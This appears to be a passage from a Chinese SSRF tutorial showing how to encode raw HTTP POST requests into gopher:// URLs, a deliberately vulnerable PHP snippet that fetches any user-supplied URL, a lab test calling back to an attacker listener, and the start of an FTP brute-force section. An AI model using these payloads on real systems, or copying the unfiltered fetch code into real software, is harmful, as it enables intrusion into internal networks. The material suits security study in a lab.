 ![](https://gitee.com/fuli009/images/raw/master/public/20220924223517.png)

Content-Length为2。  

POST同理，但是需要5行。

  *   *   *   *   * 

    
    
    POST /edit.php HTTP/1.1Host: 127.0.0.1Connection: closeContent-Type: application/x-www-form-urlencodeda=Hi

  * 

    
    
    curlgopher://192.168.11.1:80/_POST%20/edit.php%3fa=Hi%20HTTP/1.1%0d%0aHost:%20127.0.0.1%0d%0aConnection:%20close%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0a

![](https://gitee.com/fuli009/images/raw/master/public/20220924223519.png)

我们可以测试SSRF中gopher是否有效。

先写一个有SSRF的漏洞PHP代码,这里没对参数做任何过滤。

  *   *   *   *   * 

    
    
    <?php$url = $_GET['url'];$curlobj = curl_init($url);echo curl_exec($curlobj);?>

注意php.in 要开启extension=php_curl.dll  

Php版本>5.3 (gopher协议在5.3版本以上才开始支持)

攻击机监听本地4444端口，同时浏览器访问：

  * 

    
    
    192.168.11.1/ssrf2.php?url=gopher://192.168.11.130:4444/_hello

记得要在传输的数据前加一个无用字符。  

![](https://gitee.com/fuli009/images/raw/master/public/20220924223521.png)

收到传输过来的字符那么说明没有问题。

  

##

 **FTP爆破**

##

内网中存在弱口令的FTP比较多，我们可以尝试一下。

 **攻击机IP：192.168.11.130**

 **SSRF服务器IP：192.168.1.11**

 **FTP服务器IP：192.168.11.136**
